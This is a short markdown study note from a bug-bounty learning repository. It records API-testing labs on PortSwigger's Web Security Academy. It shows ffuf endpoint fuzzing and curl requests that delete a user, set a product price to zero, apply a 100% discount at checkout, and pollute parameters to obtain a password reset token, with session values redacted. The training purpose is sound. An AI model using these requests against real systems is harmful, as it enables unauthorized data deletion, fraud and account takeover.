



# API Testing

```bash
ffuf -w content.txt -u https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/FUZZ
```

```bash
curl https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/api/user/carlos -X DELETE -H  
'Cookie: session=<REDACTED_SESSION>'
```


____

To change the content type, modify the `Content-Type` header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON.

```bash
curl -X PATCH https://0a8200d403af68b280a4307f00cc0063.web-security-academy.net/api/products/1/pric  
e -d '{"price":0}' -H 'Cookie: session=<REDACTED_SESSION>' -H 'Content-Type: application/json'
```

___

```bash
curl -X POST https://0a88007104bb78eb82061ac200d600e9.web-security-academy.net/api/checkout -H 'Coo  
kie: session=<REDACTED_SESSION>' -H 'Content-Type: application/json' -d '{"chosen_products":[{"product_id":"1",  
"quantity":1}],"chosen_discount":{"percentage":100}}' -i
```

____
#### server-side parameter pollution

Place query syntax characters like `#`, `&`, and `=` in your input and observe how the application responds





`field=email`is a valid field 
`field=reset_token`



```text
/forgot-password?reset_token=<REDACTED_TOKEN>
```

___

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | Study/API Testing.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

Se han sustituido valores literales de autenticación o direcciones de correo por marcadores. Los detalles sin valores están en [el registro de redacciones](../../Resources/Audit/redactions.csv).

[Índice de categoría](../README.md) · [Inicio](../../README.md)
